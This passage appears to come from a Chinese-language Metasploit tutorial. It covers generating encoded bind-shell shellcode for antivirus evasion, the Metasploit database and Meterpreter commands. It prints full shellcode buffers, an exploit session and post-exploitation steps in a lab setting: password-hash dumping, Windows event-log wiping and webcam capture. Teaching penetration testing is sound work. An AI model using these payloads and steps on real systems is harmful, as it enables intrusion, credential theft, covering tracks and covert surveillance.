msf  payload(shell_bind_tcp) > generate -b '\x00\x44\x67\x66\xfa\x01\xe0\x44\x67\xa1\xa2\xa3\x75\x4b\xFF\x0a\x0b\x01\xcc\6e\x1e\x2e\x26'

[-] Payload generation failed: No encoders encoded the buffer successfully.

```

##### 选择编码器

当metasploit没有自动选对编码器时，可以自己定制。

使用 ```show encoders``` 可以显示当前任务可用的编码器：

```shell
msf  payload(shell_bind_tcp) > show encoders

Encoders
========

   Name                    Disclosure Date  Rank       Description
   ----                    ---------------  ----       -----------
...snip...
   x86/call4_dword_xor                      normal     Call+4 Dword XOR Encoder
   x86/context_cpuid                        manual     CPUID-based Context Keyed Payload Encoder
   x86/context_stat                         manual     stat(2)-based Context Keyed Payload Encoder
   x86/context_time                         manual     time(2)-based Context Keyed Payload Encoder
   x86/countdown                            normal     Single-byte XOR Countdown Encoder
   x86/fnstenv_mov                          normal     Variable-length Fnstenv/mov Dword XOR Encoder
   x86/jmp_call_additive                    normal     Jump/Call XOR Additive Feedback Encoder
   x86/context_stat                         manual     stat(2)-based Context Keyed Payload Encoder
   x86/context_time                         manual     time(2)-based Context Keyed Payload Encoder
   x86/countdown                            normal     Single-byte XOR Countdown Encoder
   x86/fnstenv_mov                          normal     Variable-length Fnstenv/mov Dword XOR Encoder
   x86/jmp_call_additive                    normal     Jump/Call XOR Additive Feedback Encoder
   x86/nonalpha                             low        Non-Alpha Encoder
   x86/nonupper                             low        Non-Upper Encoder
   x86/shikata_ga_nai                       excellent  Polymorphic XOR Additive Feedback Encoder
   x86/single_static_bit                    manual     Single Static Bit
   x86/unicode_mixed                        manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
   x86/unicode_upper                        manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```

使用 ```-e``` 参数可以指定编码器，使用 ```-f``` 参数可以将我们生成的载荷保存在一个文件中。例如：

```
msf  payload(shell_bind_tcp) > generate -b '\x00' -e x86/shikata_ga_nai -f /root/msfu/filename.txt
[*] Writing 1803 bytes to /root/msfu/filename.txt...
msf  payload(shell_bind_tcp) > cat ~/msfu/filename.txt
[*] exec: cat ~/msfu/filename.txt

# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xcb\xb8\x4f\xd9\x99\x0f\xd9\x74\x24\xf4\x5a\x2b\xc9" +
"\xb1\x56\x31\x42\x18\x83\xc2\x04\x03\x42\x5b\x3b\x6c\xf3" +
"\x8b\x32\x8f\x0c\x4b\x25\x19\xe9\x7a\x77\x7d\x79\x2e\x47" +
"\xf5\x2f\xc2\x2c\x5b\xc4\x51\x40\x74\xeb\xd2\xef\xa2\xc2" +
"\xe3\xc1\x6a\x88\x27\x43\x17\xd3\x7b\xa3\x26\x1c\x8e\xa2" +
"\x6f\x41\x60\xf6\x38\x0d\xd2\xe7\x4d\x53\xee\x06\x82\xdf" +
"\x4e\x71\xa7\x20\x3a\xcb\xa6\x70\x92\x40\xe0\x68\x99\x0f" +
"\xd1\x89\x4e\x4c\x2d\xc3\xfb\xa7\xc5\xd2\x2d\xf6\x26\xe5" +
...snip...
```

##### 使用多个passes生成攻击载荷

使用参数 ```-i``` 我们可以设定多少个 passes 被加入攻击载荷。加入passes的目的是：
- 需要隐秘
- 需要免杀

让我们比较一下使用passes的攻击载荷：

第一种：
```shell

msf  payload(shell_bind_tcp) > generate -b '\x00'
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xd9\xb8\x41\x07\x94\x72\xd9\x74\x24\xf4\x5b\x2b\xc9" +
"\xb1\x56\x31\x43\x18\x03\x43\x18\x83\xeb\xbd\xe5\x61\x8e" +
"\xd5\x63\x89\x6f\x25\x14\x03\x8a\x14\x06\x77\xde\x04\x96" +
"\xf3\xb2\xa4\x5d\x51\x27\x3f\x13\x7e\x48\x88\x9e\x58\x67" +
"\x09\x2f\x65\x2b\xc9\x31\x19\x36\x1d\x92\x20\xf9\x50\xd3" +
"\x65\xe4\x9a\x81\x3e\x62\x08\x36\x4a\x36\x90\x37\x9c\x3c" +
...snip...
```

第二种：
```shell
msf  payload(shell_bind_tcp) > generate -b '\x00' -i 2
# windows/shell_bind_tcp - 395 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xbd\xea\x95\xc9\x5b\xda\xcd\xd9\x74\x24\xf4\x5f\x31\xc9" +
"\xb1\x5d\x31\x6f\x12\x83\xc7\x04\x03\x85\x9b\x2b\xae\x80" +
"\x52\x72\x25\x16\x6f\x3d\x73\x9c\x0b\x38\x26\x11\xdd\xf4" +
"\x80\xd2\x1f\xf2\x1d\x96\x8b\xf8\x1f\xb7\x9c\x8f\x65\x96" +
"\xf9\x15\x99\x69\x57\x18\x7b\x09\x1c\xbc\xe6\xb9\xc5\xde" +
"\xc1\x81\xe7\xb8\xdc\x3a\x51\xaa\x34\xc0\x82\x7d\x6e\x45" +
"\xeb\x2b\x27\x08\x79\xfe\x8d\xe3\x2a\xed\x14\xe7\x46\x45" +
...snip...
```

上面两种攻击载荷的大小不同，多个passes产生了更多的载荷字节；此外，载荷的内容不一样了。迭代次数越多，载荷越大。由于第二次迭代（第二次编码过程），它对我们的有效载荷进行了一次编码，而不是把那个有效载荷重新编码。让我们看一下循环5次后的结果：

```
msf  payload(shell_bind_tcp) > generate -b '\x00' -i 5
# windows/shell_bind_tcp - 476 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xb8\xea\x18\x9b\x0b\xda\xc4\xd9\x74\x24\xf4\x5b\x33\xc9" +
"\xb1\x71\x31\x43\x13\x83\xeb\xfc\x03\x43\xe5\xfa\x6e\xd2" +
"\x31\x23\xe4\xc1\x35\x8f\x36\xc3\x0f\x94\x11\x23\x54\x64" +
"\x0b\xf2\xf9\x9f\x4f\x1f\x01\x9c\x1c\xf5\xbf\x7e\xe8\xc5" +
"\x94\xd1\xbf\xbb\x96\x64\xef\xc1\x10\x9e\x38\x45\x1b\x65" +
...snip...
```

##### 设置载荷种的默认选项

例如我们要修改载荷中默认使用的端口号，可以使用 ```-o``` 。

例如，我们修改两个默认参数：lport和exitfunc：

```shell

msf  payload(shell_bind_tcp) > show options

Module options (payload/windows/shell_bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process, none
   LPORT     4444             yes       The listen port
   RHOST                      no        The target address

msf  payload(shell_bind_tcp) > generate -o LPORT=1234,EXITFUNC=seh -b '\x00' -e x86/shikata_ga_nai
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=1234, RHOST=, EXITFUNC=seh, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xd1\xd9\x74\x24\xf4\xbb\x93\x49\x9d\x3b\x5a\x29\xc9" +
"\xb1\x56\x83\xc2\x04\x31\x5a\x14\x03\x5a\x87\xab\x68\xc7" +
"\x4f\xa2\x93\x38\x8f\xd5\x1a\xdd\xbe\xc7\x79\x95\x92\xd7" +
"\x0a\xfb\x1e\x93\x5f\xe8\x95\xd1\x77\x1f\x1e\x5f\xae\x2e" +
"\x9f\x51\x6e\xfc\x63\xf3\x12\xff\xb7\xd3\x2b\x30\xca\x12" +
"\x6b\x2d\x24\x46\x24\x39\x96\x77\x41\x7f\x2a\x79\x85\x0b" +
"\x12\x01\xa0\xcc\xe6\xbb\xab\x1c\x56\xb7\xe4\x84\xdd\x9f" +
...snip...
```

##### 转变输出风格（语言形成）

metasploit生成载荷的默认输出格式是ruby风格的，还可以转变输出格式风格为：
- perl
- C
- java

我们可以追加 ```-t``` 使用 NOP sled 。

例如：

```
msf  payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```

使用C格式：

```
msf  payload(shell_bind_tcp) > generate -t c
/*
 * windows/shell_bind_tcp - 341 bytes
 * http://www.metasploit.com
 * VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
 * InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
...snip...
```

使用java格式：

```
msf  payload(shell_bind_tcp) > generate -t java
/*
 * windows/shell_bind_tcp - 341 bytes
 * http://www.metasploit.com
 * VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
 * InitialAutoRunScript=, AutoRunScript=
 */
byte shell[] = new byte[]
{
	(byte) 0xfc, (byte) 0xe8, (byte) 0x89, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x60, (byte) 0x89,
	(byte) 0xe5, (byte) 0x31, (byte) 0xd2, (byte) 0x64, (byte) 0x8b, (byte) 0x52, (byte) 0x30, (byte) 0x8b,
	(byte) 0x52, (byte) 0x0c, (byte) 0x8b, (byte) 0x52, (byte) 0x14, (byte) 0x8b, (byte) 0x72, (byte) 0x28,
	(byte) 0x0f, (byte) 0xb7, (byte) 0x4a, (byte) 0x26, (byte) 0x31, (byte) 0xff, (byte) 0x31, (byte) 0xc0,
	(byte) 0xac, (byte) 0x3c, (byte) 0x61, (byte) 0x7c, (byte) 0x02, (byte) 0x2c, (byte) 0x20, (byte) 0xc1,
...snip...
```


##### 使用 NOP Sled 生成攻击载荷

NOP指空操作或下一个操作，NOP Sled可以使用参数 ```-s NOP次数``` 加入。每个NOP占用1个字节。

例如不加NOP指令的载荷是：

```shell
msf  payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```

加了nop指令的载荷是：

```shell
msf  payload(shell_bind_tcp) > generate -s 14
# windows/shell_bind_tcp - 355 bytes
# http://www.metasploit.com
# NOP gen: x86/opty2
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xb9\xd5\x15\x9f\x90\x04\xf8\x96\x24\x34\x1c\x98\x14\x4a" +
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```


### 2.5 Metasploit 的数据库

执行渗透测试时，经常会跟踪目标，收集信息。使用一个数据库来存储信息将非常有用并节省时间。Metasploit 内建支持 PostgreSQL 数据库系统。

使用 ```help database``` 命令，可以查看命令列表：

```shell
msf > help database

Database Backend Commands
=========================

    Command           Description
    -------           -----------
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces

msf > hosts

Hosts
=====

address         mac                name            os_name  os_flavor  os_sp  purpose  info  comments
-------         ---                ----            -------  ---------  -----  -------  ----  --------
172.16.194.134                                     Unknown                    device         
172.16.194.163                     172.16.194.163  Linux    Ubuntu            server         
172.16.194.172  00:0C:29:D1:62:80  172.16.194.172  Linux    Ubuntu            server         

msf > services -p 21

Services
========

host            port  proto  name  state  info
----            ----  -----  ----  -----  ----
172.16.194.172  21    tcp    ftp   open   vsftpd 2.3.4
```


#### 2.5.1 启动数据库

如果使用 Kali，可以使用下列命令启动 PostgreSql数据库：
```root@kali:~# systemctl start postgresql```

启动后，使用下列命令进行初始化：

```shell
root@kali:~# msfdb init
Creating database user 'msf'
Enter password for new role: 
Enter it again: 
Creating databases 'msf' and 'msf_test'
Creating configuration file in /usr/share/metasploit-framework/config/database.yml
Creating initial database schema

```

可以使用 ```db_status``` 命令验证是否启用数据库：

```shell
msf > db_status 
[*] postgresql connected to msf
```

#### 2.5.2 使用 workspace

为了分门别类的跟踪记录信息，可以使用workspace命令，显示当前选中的工作区。

```shell

msf > workspace
* default
  msfu
  lab1
  lab2
  lab3
  lab4
msf > 
```
带星号的表示当前使用的工作区。

下面的例子显示了如何切换工作区：
```
msf > workspace msfu
[*] Workspace: msfu
msf > workspace
  default
* msfu
  lab1
  lab2
  lab3
  lab4
msf > 
```

生成或删除工作区可以使用 ```-a``` 和 ```-d ```参数:

```
msf > workspace -a lab4
[*] Added workspace: lab4
msf > 


msf > workspace -d lab4 
[*] Deleted workspace: lab4
msf > workspace
```

#### 2.5.3 其他数据库命令

使用 help 命令，可以查看所有与database相关的命令，与db相关的命令大多使用db_：

```Shell

msf > help
...snip...

Database Backend Commands
=========================

    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces
```

#### 2.5.4 导入和扫描

有多种方式可以完成扫描主机、导入信息。

下面的例子时导入nmap扫描结果：
```shell

msf >  db_import /root/msfu/nmapScan 
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Rex::Parser::NmapXMLStreamParser'
[*] Importing host 172.16.194.172
[*] Successfully imported /root/msfu/nmapScan
msf > hosts

Hosts
=====

address         mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------         ---                ----  -------  ---------  -----  -------  ----  --------
172.16.194.172  00:0C:29:D1:62:80        Linux    Ubuntu            server         

msf > 

```

完成了扫描后可以使用 ```hosts``` 命令来确认导入结果。这个命令会显示所有存放在当前workspace的所有主机。我们也可以使用 ```db_nmap``` 直接扫描一台主机。扫描结果会保存在当前数据库中，这个命令的效果同使用nmap命令的结果一样。

```shell

msf > db_nmap -A 172.16.194.134
[*] Nmap: Starting Nmap 5.51SVN ( http://nmap.org ) at 2012-06-18 12:36 EDT
[*] Nmap: Nmap scan report for 172.16.194.134
[*] Nmap: Host is up (0.00031s latency).
[*] Nmap: Not shown: 994 closed ports
[*] Nmap: PORT     STATE SERVICE      VERSION
[*] Nmap: 80/tcp   open  http         Apache httpd 2.2.17 ((Win32) mod_ssl/2.2.17 OpenSSL/0.9.8o PHP/5.3.4 

...snip...

[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.31 ms 172.16.194.134
[*] Nmap: OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 14.91 seconds
msf >


msf > hosts

Hosts
=====

address         mac                name  os_name            os_flavor  os_sp  purpose  info  comments
-------         ---                ----  -------            ---------  -----  -------  ----  --------
172.16.194.134  00:0C:29:68:51:BB        Microsoft Windows  XP                server         
172.16.194.172  00:0C:29:D1:62:80        Linux              Ubuntu            server         

msf > 
```


#### 2.5.5 备份数据

导出数据命令可以使用 ```db_export``` ，信息将以XML格式保存。此外还可以使用pwdump格式，用于导出任何与口令相关的信息。

```shell

msf >  db_export -h
Usage:
    db_export -f  [-a] [filename]
    Format can be one of: xml, pwdump
[-] No output file was specified

msf > db_export -f xml /root/msfu/Exported.xml
[*] Starting export of workspace msfu to /root/msfu/Exported.xml [ xml ]...
[*]     >> Starting export of report
[*]     >> Starting export of hosts
[*]     >> Starting export of events
[*]     >> Starting export of services
[*]     >> Starting export of credentials
[*]     >> Starting export of web sites
[*]     >> Starting export of web pages
[*]     >> Starting export of web forms
[*]     >> Starting export of web vulns
[*]     >> Finished export of report
[*] Finished export of workspace msfu to /root/msfu/Exported.xml [ xml ]...
```

#### 2.5.6 hosts 命令

hosts命令用于显示收集到的与主机相关的信息。

```
msf > hosts -h
Usage: hosts [ options ] [addr1 addr2 ...]

OPTIONS:
  -a,--add          Add the hosts instead of searching
  -d,--delete       Delete the hosts instead of searching
  -c <col1,col2>    Only show the given columns (see list below)
  -h,--help         Show this help information
  -u,--up           Only show hosts which are up
  -o          Send output to a file in csv format
  -O        Order rows by specified column number
  -R,--rhosts       Set RHOSTS from the results of the search
  -S,--search       Search string to filter by
  -i,--info         Change the info of a host
  -n,--name         Change the name of a host
  -m,--comment      Change the comment of a host
  -t,--tag          Add or specify a tag to a range of hosts

Available columns: address, arch, comm, comments, created_at, cred_count, detected_arch, exploit_attempt_count, host_detail_count, info, mac, name, note_count, os_family, os_flavor, os_lang, os_name, os_sp, purpose, scope, service_count, state, updated_at, virtual_host, vuln_count, tags
```

使用 ```-c``` 命令，可以查看指定内容信息。

```shell
msf > hosts -c address,os_flavor

Hosts
=====

address         os_flavor
-------         ---------
172.16.194.134  XP
172.16.194.172  Ubuntu
```

#### 2.5.7 Services 命令

Services 命令也可以用于查询数据库。

```shell
msf > services -h

Usage: services [-h] [-u] [-a] [-r ] [-p >port1,port2>] [-s >name1,name2>] [-o ] [addr1 addr2 ...]

  -a,--add          Add the services instead of searching
  -d,--delete       Delete the services instead of searching
  -c <col1,col2>    Only show the given columns
  -h,--help         Show this help information
  -s <name1,name2>  Search for a list of service names
  -p <port1,port2>  Search for a list of ports
  -r      Only show [tcp|udp] services
  -u,--up           Only show services which are up
  -o          Send output to a file in csv format
  -R,--rhosts       Set RHOSTS from the results of the search
  -S,--search       Search string to filter by

Available columns: created_at, info, name, port, proto, state, updated_at
```
使用 -c 或 -s 可以按条件显示或查询。

```Shell
msf > services -c name,info 172.16.194.134

Services
========

host            name          info
----            ----          ----
172.16.194.134  http          Apache httpd 2.2.17 (Win32) mod_ssl/2.2.17 OpenSSL/0.9.8o PHP/5.3.4 mod_perl/2.0.4 Perl/v5.10.1 
172.16.194.134  msrpc         Microsoft Windows RPC 
172.16.194.134  netbios-ssn   
172.16.194.134  http          Apache httpd 2.2.17 (Win32) mod_ssl/2.2.17 OpenSSL/0.9.8o PHP/5.3.4 mod_perl/2.0.4 Perl/v5.10.1 
172.16.194.134  microsoft-ds  Microsoft Windows XP microsoft-ds 
172.16.194.134  mysql 
```

使用 -s 查询包含 http 的服务。
```
msf > services -c name,info -S http

Services
========

host            name  info
----            ----  ----
172.16.194.134  http  Apache httpd 2.2.17 (Win32) mod_ssl/2.2.17 OpenSSL/0.9.8o PHP/5.3.4 mod_perl/2.0.4 Perl/v5.10.1 
172.16.194.134  http  Apache httpd 2.2.17 (Win32) mod_ssl/2.2.17 OpenSSL/0.9.8o PHP/5.3.4 mod_perl/2.0.4 Perl/v5.10.1 
172.16.194.172  http  Apache httpd 2.2.8 (Ubuntu) DAV/2 
172.16.194.172  http  Apache Tomcat/Coyote JSP engine 1.1 
```

#### 2.5.8 CSV EXPORT

使用 -o 参数，可以将查询结果输出到 CSV 文件。

```Shell

msf > services -s http -c port 172.16.194.134 -o /root/msfu/http.csv

[*] Wrote services to /root/msfu/http.csv

msf > hosts -S Linux -o /root/msfu/linux.csv
[*] Wrote hosts to /root/msfu/linux.csv

msf > cat /root/msfu/linux.csv
[*] exec: cat /root/msfu/linux.csv

address,mac,name,os_name,os_flavor,os_sp,purpose,info,comments
"172.16.194.172","00:0C:29:D1:62:80","","Linux","Debian","","server","",""

msf > cat /root/msfu/http.csv
[*] exec: cat /root/msfu/http.csv

host,port
"172.16.194.134","80"
"172.16.194.134","443"

```

#### 2.5.9 CREDS

creds命令用于管理数据库中已经发现的或使用的口令。

```shell

msf > creds

Credentials
===========

host  port  user  pass  type  active?
----  ----  ----  ----  ----  -------

[*] Found 0 credentials.
```

下面给出一个渗透成功后的例子：

```shell

msf  auxiliary(mysql_login) > run

[*] 172.16.194.172:3306 MYSQL - Found remote MySQL version 5.0.51a
[*] 172.16.194.172:3306 MYSQL - [1/2] - Trying username:'root' with password:''
[*] 172.16.194.172:3306 - SUCCESSFUL LOGIN 'root' : ''
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


msf  auxiliary(mysql_login) > creds 

Credentials
===========

host            port  user  pass  type      active?
----            ----  ----  ----  ----      -------
172.16.194.172  3306  root        password  true

[*] Found 1 credential.
msf  auxiliary(mysql_login) >

```

如果收集到一些口令信息，可以使用 ```creds -a``` 保存它们到数据库中。

```shell
msf > creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
[*] Time: 2012-06-20 20:31:42 UTC Credential: host=172.16.194.134 port=445 proto=tcp sname= type=password user=Administrator pass=7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e::: active=true

msf > creds

Credentials
===========

host            port  user           pass                                                                  type      active?
----            ----  ----           ----                                                                  ----      -------
172.16.194.134  445   Administrator  7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::  password  true

[*] Found 1 credential.
```

#### 2.5.10 LOOT

如果成功渗透了某个系统，一些hash值将存储在数据库中。可以使用 ```loot``` 命令查看这些值。

```shell

msf > loot -h
Usage: loot
 Info: loot [-h] [addr1 addr2 ...] [-t <type1,type2>]
  Add: loot -f [fname] -i [info] -a [addr1 addr2 ...] [-t [type]
  Del: loot -d [addr1 addr2 ...]

  -a,--add          Add loot to the list of addresses, instead of listing
  -d,--delete       Delete *all* loot matching host and type
  -f,--file         File with contents of the loot to add
  -i,--info         Info of the loot to add
  -t <type1,type2>  Search for a list of types
  -h,--help         Show this help information
  -S,--search       Search string to filter by
```

下面这个例子显示了如何查看：

```shell

msf  exploit(usermap_script) > exploit

[*] Started reverse double handler
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 4uGPYOrars5OojdL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "4uGPYOrars5OojdL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.194.163:4444 -> 172.16.194.172:55138) at 2012-06-27 19:38:54 -0400

^Z
Background session 1? [y/N]  y

msf  exploit(usermap_script) > use post/linux/gather/hashdump
msf  post(hashdump) > show options

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf  post(hashdump) > sessions -l

Active sessions
===============

  Id  Type        Information  Connection
  --  ----        -----------  ----------
  1   shell unix               172.16.194.163:4444 -> 172.16.194.172:55138 (172.16.194.172)

msf  post(hashdump) > run

[+] root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
[+] sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
[+] klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
[+] msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
[+] postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
[+] user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
[+] service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
[*] Post module execution completed


msf  post(hashdump) > loot

Loot
====

host            service  type          name                   content     info                            path
----            -------  ----          ----                   -------     ----                            ----
172.16.194.172           linux.hashes  unshadowed_passwd.pwd  text/plain  Linux Unshadowed Password File  /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
172.16.194.172           linux.passwd  passwd.tx              text/plain  Linux Passwd File               /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.passwd_953644.txt
172.16.194.172           linux.shadow  shadow.tx              text/plain  Linux Password Shadow File      /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.shadow_492948.txt
```


### 2.6 Meterpreter

Meterpreter 是一套高级、动态、可扩展的攻击载荷，用于内存DLL注入 stagers，并且可以实时地通过网络扩展。它通过一个 stager socket 进行通信，并提供一个综合的 客户端 RUBY api。

#### 2.6.1 Meterpreter工作原理

- 攻击目标执行初始的 stager 代码，通常为：bind、reverse、findtag、passivex 等等；
- 这个 stager 代码调用含有反射性的DLL，反射性 stub 控制着这个DLL 的调用或注入；
- Meterpreter 核心初始化，经过 socket ，发送一个GET 请求，建立一个 TLS/1.0 连接；
- Metasploit 收到这个 GET 请求，并配置这个客户端；
- 最后，Meterpreter 调用扩展模块。如果模块有管理员权限时，它将调用 stdapi 和 priv。所有这些扩展将使用TLV 协议由 TLS/1.0 调用。

#### 2.6.2 Meterpreter的设计目标

- 隐蔽性
  - 内存驻留、无磁盘操作
  - 无进程生成
  - 默认使用加密通信
  - 有限的痕迹和影响
- 功能性
  - 利用了信道通信系统
  - TLV协议受限小
- 扩展性
  -  实时可配置、可加载
  -  网络调用
  -  可增加新的功能
#### 2.6.3 Meterpreter 命令

##### HELP

显示帮助

##### BACKGROUND

将当前 Meterpreter 会话转到后台，返回一个 msf 控制台。

要返回 Meterpreter 会话，使用 sessions 命令即可。

```
meterpreter > background
msf exploit(ms08_067_netapi) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

##### CLEAREV

用于清除Windows系统中的应用、系统、安全等方面的日志信息。

```
meterpreter > clearev
[*] Wiping 97 records from Application...
[*] Wiping 415 records from System...
[*] Wiping 0 records from Security...
meterpreter >
```

##### DOWNLOAD

从远程主机下载一个文件。注意在windows中使用两个斜杠。

```
meterpreter > download c:\\boot.ini
[*] downloading: c:\boot.ini -> c:\boot.ini
[*] downloaded : c:\boot.ini -> c:\boot.ini/boot.ini
meterpreter >
```

##### EDIT

用于编辑一个文件

##### EXECUTE

执行一个windows命令

```shell
meterpreter > execute -f cmd.exe -i -H
Process 38320 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

##### GETUID

运行这个命令可以显示 Meterpreter 的服务器

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

##### HASHDUMP

这个命令可以导出windows系统中的SAM数据库。

```
meterpreter > run post/windows/gather/hashdump 

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter >
```

##### IDLETIME

这个命令运行后显示远程机器用户的空闲时间。

```shell
meterpreter > idletime
User has been idle for: 5 hours 26 mins 35 secs
meterpreter >
```

##### WEBCAM_SNAP

这个命令会从连接的web 摄像头获取图像。

```shell

meterpreter > webcam_snap -i 1 -v false
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
meterpreter >
```


#### Meterpreter 的扩展

使用 ```load python``` 命令可以在运行了meterpreter的主机上运行python程序。

```
